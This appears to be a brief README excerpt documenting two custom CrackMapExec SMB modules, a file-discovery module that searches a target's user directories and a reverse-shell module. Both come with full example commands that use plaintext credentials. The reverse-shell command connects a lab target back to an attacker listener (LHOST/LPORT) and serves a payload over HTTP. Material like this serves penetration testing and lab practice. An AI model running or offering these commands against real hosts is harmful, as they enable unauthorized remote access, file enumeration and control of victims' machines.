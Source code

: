## Usage of file_discovery

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M file_discovery -o SEARCH_PATH=C:\\Users
````

## Usage of revshell

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M reverse_shell -o LHOST=192.168.163.136 LPORT=1234 HTTP_SERVER=8443
````
